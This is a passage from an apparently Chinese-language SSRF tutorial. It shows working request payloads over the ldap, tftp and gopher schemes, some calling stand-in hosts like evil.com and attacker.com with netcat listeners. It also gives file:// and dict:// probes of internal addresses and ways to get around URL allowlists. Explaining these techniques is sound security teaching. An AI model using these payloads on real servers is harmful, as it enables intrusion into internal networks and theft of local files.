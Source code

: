 `http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquithttp://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquithttp://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit
`

5、tftp://

TFTP（Trivial File Transfer Protocol,简单文件传输协议）是一种简单的基于lockstep机制的文件传输协议，它允许客户端从远程主机获取文件或将文件上传至远程主机。

`http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET`
`evil.com:# nc -lvup 1337`
`Listening on [0.0.0.0] (family 0, port1337)TESTUDPPACKEToctettsize0blksize512timeout3`

6、gopher://

Gopher是一种分布式文档传递服务。利用该服务，用户可以无缝地浏览、搜索和检索驻留在不同位置的信息。

`http://example.com/ssrf.php?url=http://attacker.com/gopher.php gopher.php (host it on acttacker.com):-<?php header('Location: gopher://evil.com:1337/_Hi%0Assrf%0Atest');?>`
`evil.com:# nc -lvp 1337
Listening on [0.0.0.0] (family 0, port1337)Connection from [192.168.0.12] port 1337[tcp/*] accepted (family 2, sport 49398)Hissrftest`

# SSRF漏洞利用（危害）
1.可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;

2.攻击运行在内网或本地的应用程序（比如溢出）;

3.对内网web应用进行指纹识别，通过访问默认文件实现;

4.攻击内外网的web应用，主要是使用get参数就可以实现的攻击（比如struts2，sqli等）;

5.利用file协议读取本地文件等。.

6.各个协议调用探针：http,file,dict,ftp,gopher等

http:192.168.64.144/phpmyadmin/
file:///D:/www.txt
dict://192.168.64.144:3306/info
ftp://192.168.64.144:21

# SSRF绕过方式
部分存在漏洞，或者可能产生SSRF的功能中做了白名单或者黑名单的处理，来达到阻止对内网服务和资源的攻击和访问。因此想要达到SSRF的攻击，需要对请求的参数地址做相关的绕过处理，常见的绕过方式如下：

一、常见的绕过方式

1、限制为`http://www.xxx.com` 域名时（利用@）

可以尝试采用http基本身份认证的方式绕过
如：`http://www.aaa.com@www.bbb.com@www.ccc.com`，在对@解析域名中，不同的处理函数存在处理差异
在PHP的parse_url中会识别`www.ccc.com`，而libcurl则识别为`www.bbb.com`。

2.采用短网址绕过

比如百度短地址`https://dwz.cn/`

3.采用进制转换
